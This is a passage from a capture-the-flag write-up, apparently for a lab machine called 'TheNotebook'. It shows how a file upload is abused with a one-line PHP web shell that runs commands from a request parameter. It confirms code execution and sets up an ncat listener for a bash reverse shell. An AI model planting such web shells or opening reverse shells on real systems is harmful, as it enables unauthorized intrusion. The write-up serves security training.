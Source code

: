 The second note mentions backups being scheduled which might be interesting for later on.

[![backups_scheduled](/img/thenotebook/backups_scheduled.png)](/img/thenotebook/backups_scheduled.png)

To abuse the file upload we generate a small and simple php web shell in a first step.

```php
<?php system($_REQUEST['cmd']); ?>
```

After uploading it it get's asigned a new name and we can click to view it. Note here that there is a cleanup script running, so if the file is gone one has to reupload it.

[![upload](/img/thenotebook/upload.png)](/img/thenotebook/upload.png)

We can quickly validate php is really executed by passing the `id` command to the `cmd` parameter of our web shell.

[![rce_poc](/img/thenotebook/rce_poc.png)](/img/thenotebook/rce_poc.png)

Since we now have confirmed RCE on the machine we can go for a reverse shell. First we set up our ncat listener, then we intercept the web shell request in Burp, send it to repeater and change the request method. We use a simple bash reverse shell which we URL-encode as the post parameter.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```
